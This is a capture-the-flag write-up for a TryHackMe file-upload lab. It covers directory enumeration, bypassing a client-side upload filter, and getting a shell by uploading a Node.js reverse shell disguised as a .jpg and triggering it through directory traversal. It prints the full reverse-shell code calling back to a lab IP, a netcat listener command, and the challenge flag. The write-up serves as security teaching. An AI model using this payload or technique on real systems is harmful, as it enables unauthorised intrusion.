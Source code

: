 # Task 11 Challenge - Write-up
A very cool and 1337-like CTF file-upload web vulnerability. Take note that the attack machine for TryHackMe was used to complete this challenge.

## The task
It's challenge time!

Head over to `jewel.uploadvulns.thm.`

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/. Bear in mind that this challenge will be an accumulation of everything you've learnt so far, so there may be multiple filters to bypass. The attached wordlist might help. Also remember that not all webservers have a PHP backend...

## The Solution
### Enumeration
Visiting the website `jewel.uploadvulns.thm`, one can easily infer that the website accepts `jpg/jpeg` images, functionally for jewels, to showcase through the website. Somehow, we need to exploit this file upload vulnerability.

In CTFs like this one, it is imperative to gather as much information as possible on the target. As we were first introduced in the room to enumerate via `gobuster`, we will do exactly that.
```console
root@ip-10-10-241-182:~# gobuster dir -u jewel.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://jewel.uploadvulns.thm
[+] Threads:        64
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/02/09 20:58:12 Starting gobuster
===============================================================
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
Progress: 9029 / 220561 (4.09%)
```
Looking at the admin page, we see that we are able to execute code through it by choosing files in the `/modules` directory. From this, one can recognize that this is a potential directory-traversal vulnerability. 

Looking at the page source is another method of enumeration. The following lines are interesting. 
```html
    		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	</head>
	<body>
		<div id="one" class="background"></div>
		<div id="two" class="background" style="display:none;"></div>
```
`<script src="assets/js/upload.js"></script>` indicate some sort of script for filtering file-uploads. By clicking on this script, we are met with the following lines of code.
```js
$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){
			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "Ã¿ÃÃ¿"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}
const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
```
In addition, one can find a reference to the background image of the website of the form `/content/XXX.jpg`. It is reasonable to think that the images uploaded are stored there.

Great! It seems like the JavaScript code filters by means of (1) File Extension, (2) Magic Number, and (3) File size. Since I am able to access this filtering, the script is a client-side filter which can be removed through `Burp Suite` via interception of responses. We do exactly this.


Interesting, the header `X-Powered-By: Express` suggests that the server uses `Node.js` for its back-end programming language. This allows us to search online for a reverse shell code for `Node.js`. The reverse shell code used is from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.241.182", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
### Attack
Notice that I replaced the port field and IP-field appropriate to the machine who is going to be listening. In my case, it was the AttackBox machine.

Now that the client-side filter is removed, we can try to upload our Node.js reverse shell. One can quickly see that the file is not accepted suggesting that there are server-side filters in place. Editing our reverse shell to have the name `reverse-shell.jpg` and uploading it however leads to an acceptance. Awesome!

Remember the admin page? Well, we can leverage the directory-traversal vulnerability to get it to execute `reverse-shell.jpg`. We set-up a listener so:
```console
root@ip-10-10-241-182:~# nc -lvnp 4444
```
By typing in the field of the admin page with `../content/ALX.jpg`, we get a connection!!! A reverse-shell was created! Finally, `cat /var/www/flag.txt` on our attacking machine who received the reverse shell gives us the flag `THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`.




